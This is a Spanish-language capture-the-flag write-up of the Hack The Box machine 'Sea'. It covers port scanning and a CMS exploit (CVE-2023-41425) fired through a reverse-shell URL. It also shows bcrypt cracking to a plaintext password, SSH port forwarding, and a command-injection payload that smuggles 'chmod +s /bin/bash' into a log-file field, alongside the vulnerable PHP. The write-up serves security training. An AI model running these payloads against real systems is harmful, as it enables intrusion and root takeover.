# Sea - Writeup HTB



# Reconocimiento

Iniciamos con el reconocimientos de los puertos abiertos

```c
❯ nmap -p- --min-rate 5000 -Pn -n -vvv 10.10.11.28 -oG allportsScan
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

```

- **`nmap`**: Es una herramienta de red utilizada para escanear y descubrir hosts y servicios en una red.
    
- **`-p-`**: Escanea todos los puertos disponibles (del 1 al 65535).
    
- **`--min-rate 5000`**: Define la velocidad mínima de paquetes enviados, en este caso, 5000 paquetes por segundo. Esto hace que el escaneo sea más rápido.
    
- **`-Pn`**: Desactiva el escaneo previo de ping. `nmap` no intentará descubrir si el host está activo antes de escanear los puertos, simplemente escaneará todos los puertos especificados.
    
- **`-n`**: Evita la resolución de nombres DNS, utilizando solo las direcciones IP.
    
- **`-vvv`**: Incrementa el nivel de detalle de la salida, mostrando más información durante el escaneo.
    
- **`10.10.11.28`**: Es la dirección IP del objetivo al que se va a escanear.
    
- **`-oG allportsScan`**: Guarda los resultados del escaneo en un archivo en formato "grepable" con el nombre `allportsScan`.

Luego de encontrar los puertos abiertos vamos a enumerar los servicios y versiones

```c
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e3:54:e0:72:20:3c:01:42:93:d1:66:9d:90:0c:ab:e8 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCZDkHH698ON6uxM3eFCVttoRXc1PMUSj8hDaiwlDlii0p8K8+6UOqhJno4Iti+VlIcHEc2THRsyhFdWAygICYaNoPsJ0nhkZsLkFyu/lmW7frIwINgdNXJOLnVSMWEdBWvVU7owy+9jpdm4AHAj6mu8vcPiuJ39YwBInzuCEhbNPncrgvXB1J4dEsQQAO4+KVH+QZ5ZCVm1pjXTjsFcStBtakBMykgReUX9GQJ9Y2D2XcqVyLPxrT98rYy+n5fV5OE7+J9aiUHccdZVngsGC1CXbbCT2jBRByxEMn+Hl+GI/r6Wi0IEbSY4mdesq8IHBmzw1T24A74SLrPYS9UDGSxEdB5rU6P3t91rOR3CvWQ1pdCZwkwC4S+kT35v32L8TH08Sw4Iiq806D6L2sUNORrhKBa5jQ7kGsjygTf0uahQ+g9GNTFkjLspjtTlZbJZCWsz2v0hG+fzDfKEpfC55/FhD5EDbwGKRfuL/YnZUPzywsheq1H7F0xTRTdr4w0At8=
|   256 f3:24:4b:08:aa:51:9d:56:15:3d:67:56:74:7c:20:38 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMMoxImb/cXq07mVspMdCWkVQUTq96f6rKz6j5qFBfFnBkdjc07QzVuwhYZ61PX1Dm/PsAKW0VJfw/mctYsMwjM=
|   256 30:b1:05:c6:41:50:ff:22:a3:7f:41:06:0e:67:fd:50 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHuXW9Vi0myIh6MhZ28W8FeJo0FRKNduQvcSzUAkWw7z
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Sea - Home
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

## Sitio Web

Enumerando el sitio web encontraremos con lo siguiente:



Para enumerar los directorios del sitio web usaremos la herramienta de `feroxbuster`  

```c
❯ feroxbuster --url http://10.10.11.28/
```

Enumerando encontramos algunos archivos interesantes.



Revisamos las versiones

http://10.10.11.28/themes/bike/version



Otra herramienta que haremos uso es `ffuf` para enumerar archivos en el directorio `/themes/bike`

```c
❯ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -fs 199 -u http://10.10.11.28/themes/bike/FUZZ -e .php,.html,.txt,.sql,.md,.log
```

Encontramos un archivo llamado `README.md`



# CVE-2023-414225

En el `README.md` encontraremos el cms con la versión `3.2.0` el cual tiene una vulnerabilidad.

https://github.com/prodigiousMind/CVE-2023-41425/tree/main

por lo que ejecutaremos dicho exploit y luego podemos ir a la siguiente url con nuestr IP y Puerto para recibir una shell

```c
http://10.10.11.28/themes/revshell-main/rev.php?lhost=10.10.14.55&lport=%2044
```

## www-data



Enumerando el directorio `/var/www/sea/data` encontraremos un archivo database.js en donde observaremos una password encriptada



los caracteres `\` en el hash no están bien. En un hash bcrypt válido, los caracteres `\` no deben estar presentes porque el set de caracteres permitido en un hash bcrypt incluye:

- Letras mayúsculas y minúsculas (A-Z, a-z)
- Números (0-9)
- Punto (`.`)
- Barra (`/`)

Los caracteres `\` podrían haber sido escapados o añadidos accidentalmente. Asegúrate de que el hash no incluya `\`. Debería verse algo así:

```c
$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q
```

Si esos `\` están en el hash, podría causar problemas al verificarlo o al utilizarlo.

# Amay

Luego de quitar `\` podemos crackear la contraseña:



La contraseña en texto plano es:

```c
mychemicalromance
```

Y con ayuda de la herramienta de `netexec` podemos validar las credenciales en el servicio `ssh`

```c
❯ netexec ssh 10.10.11.28 -u users -p 'mychemicalromance'
SSH         10.10.11.28     22     10.10.11.28      [*] SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.11
SSH         10.10.11.28     22     10.10.11.28      [-] geo:mychemicalromance
SSH         10.10.11.28     22     10.10.11.28      [+] amay:mychemicalromance  Linux - Shell access!
```

## PortForwarning -> root

Ahora nos conectamos por el servicio ssh como el usuario `amay`

```c
❯ ssh amay@10.10.11.28
```



Enumerando encontraremos que se tiene un servicio web interna y para poner observar y acceder al contenido ejecutamos el siguiente comando:

```c
❯ ssh amay@10.10.11.28 -L 8080:127.0.0.1:8080
```



Observamos un panel donde nos piden credenciales, las credenciales que nos permiten acceder son:

```c
amay : mychemicalromance
```

Luego de acceder nos encontremos el siguiente contenido:



Interceptando con `burpsuite` podemos encontrar que se hace un petición, pero solo tenemos eso. Luego de estar probando muchas cosas ejecute el siguiente comando:



Y puede ver que me ejecutaba el comando, así que seguí probando.



Vi que pude ejecutar el comando `chmod +s /bin/bash` por lo que agregue lo siguiente en la petición en burpsuite.
 
```c
 log_file=%2Fvar%2Flog%2Fapache2%2Faccess.log%3bchmod+%2bs+/bin/bash&analyze_log=
```

Revisando observamos que pudimos cambiar los permisos de la /bin/bash



Revisando el código del sitio web encontramos el porque no nos reconocía algunos comandos

```php
            if (isset($_POST['analyze_log'])) {
                $log_file = $_POST['log_file'];

                $suspicious_traffic = system("cat $log_file | grep -i 'sql\|exec\|wget\|curl\|whoami\|system\|shell_exec\|ls\|dir'");
                if (!empty($suspicious_traffic)) {
                    echo "<p class='error'>Suspicious traffic patterns detected in $log_file:</p>";
                    echo "<pre>$suspicious_traffic</pre>";
                } else {
                    echo "<p>No suspicious traffic patterns detected in $log_file.</p>";
                }
            }
```


